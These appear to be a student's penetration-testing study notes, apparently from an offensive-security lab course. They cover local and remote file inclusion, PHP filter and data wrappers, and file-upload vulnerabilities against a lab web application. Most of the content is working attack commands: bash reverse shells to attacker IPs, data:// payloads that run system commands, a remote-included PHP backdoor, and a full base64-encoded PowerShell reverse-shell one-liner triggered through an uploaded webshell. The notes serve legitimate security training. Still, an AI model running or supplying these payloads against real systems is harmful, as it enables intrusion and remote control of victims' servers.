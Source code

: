 	- Reverse Shell
		- bash -i >& /dev/tcp/192.168.45.174/4444 0>&1
	- -c to make sure it executes in bash
		- bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
		- URL encoding
			- bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22
		- Start Netcat listener
			- nc -lvnp 4444
	- XAMPP
		- Log Files
			- C:\xampp\apache\logs\
- PHP Wrappers
	- php://filter --> read content
		- Unwrapped request
			- curl http://mountaindesserts.com/meteor/index.php?page=admin.php
		- PHP wrapped
			- curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php
		- Base 64 encoded
			- curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php
		- Decode
			- echo [$encoded http response] | base64 -d
				- -d --> decode
	- data:// ---> execute code
		- **** [allow_url_include] setting must be enabled ****
		- embed URL-encoded PHP
			- curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
		- Base 64 encoded
			1. echo -n '<?php echo system($_GET["cmd"]);?>' | base64
			2. curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
- Remote File Inclusion (RFI)
	- Example:
		- Using simple-backdoor.php
			- [kali] /usr/share/webshells/php/
		- Startup web server
			- python3 -m http.server 80
		- Use curl with included file
			- curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"
- File Upload Vulnerability
	- Example:
		- curl http://192.168.50.189/meteor/uploads/simple-backdoor.pHP?cmd=dir
		- Powershell
			1. PowerShell on Kali
				-  pwsh
			2. Create text variable to store reverse shell one-liner
				- PS > `$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'`
			3. Use convert method and unicode property to encode
				- `$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)`
				- `$EncodedText =[Convert]::ToBase64String($Bytes)`
				- `$EncodedText`
				- `exit`
			4. Use curl to execute
				- curl http://192.168.50.189/meteor/uploads/simple-backdoor.pHP?cmd=powershell%20-enc%20JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0
					- -enc
						- for base64 encoding
